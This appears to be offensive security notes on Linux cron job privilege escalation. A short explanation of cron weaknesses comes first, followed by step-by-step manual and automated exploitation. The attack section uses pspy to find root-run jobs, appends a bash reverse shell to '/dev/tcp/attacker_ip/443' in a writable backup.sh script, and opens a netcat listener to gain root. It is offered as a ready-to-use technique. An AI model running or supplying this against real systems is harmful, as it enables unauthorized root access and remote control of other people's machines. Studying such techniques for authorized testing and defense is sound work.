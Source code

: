 --- ---

<h2>General</h2>

A cron job vulnerability in Linux refers to a security weakness in the way that cron jobs (scheduled tasks in the Linux operating system) are configured or used. This type of vulnerability can allow an attacker to gain unauthorized access to a system, execute malicious code, or perform other malicious actions. Some potential sources of cron job vulnerabilities include:

-   Improperly configured cron job permissions: If a cron job has inadequate permissions, an attacker may be able to modify or delete it, or execute it with the privileges of the user or group that owns the cron job.
    
-   Insecurely stored credentials: If a cron job requires access to sensitive data or resources, such as passwords or private keys, and these credentials are stored in an insecure manner (e.g., in a plaintext file), an attacker may be able to access them.
    
-   Unvalidated input: If a cron job processes input from an untrusted source, such as data entered by a user or received over the network, and this input is not properly validated, an attacker may be able to inject malicious code or data that is executed when the cron job runs.

---

<h2>Commands</h2>

<h3>Manual Exploitation</h3>
1. Find writeable files or directories (Manual)
```
cat /etc/crontab        ---> Check if there is cron job
crontab -l              ---> Check the schedule for a cron job
```

- Check permissions of the cron jobs (EX: writeable and runs as root -> Will give you Root access)
- Check the Schedule of cron jobs
- Add a one-liner reverse shell in the corruptible file ---> [Link for one-liner reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- Set a Lisener and wait for the cron job to be executed

<h3>Automated Exploitation</h3>
- Automated Cron-Jobs Finding

1. Run pspy to see running processes, commands, and cron-jobs
```
./pspy64 -pf -i 1000     
```
  '---> Github Link: https://github.com/DominicBreuker/pspy

![[Screenshot from 2022-11-28 20-46-56.png]]

- (EXAMPLE) From the above output, we can see that a cron job runs the backup.sh script located in the /dmz-backups directory and creating a tarball file of the contents of the /var/www/html directory.

3. Examine the backup.sh script
```
nano /dmz-backups/backup.sh             ---> The vulnerable cron job (ex)
```

4. Add a bash one-liner reverse shell to the end of the script
```
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date+%-T).tgz
tar --absolute-names --create --gzip --
file=$DESTDIR$FILENAME $SRCDIR

bash -i >& /dev/tcp/attacker_ip/443 0>&1
```
- Using Port 443 (Often allowed through firewalls) -- Not obligated to use this port

5. Set up a netcat listener and become root!
```
nc -lnvp 443
```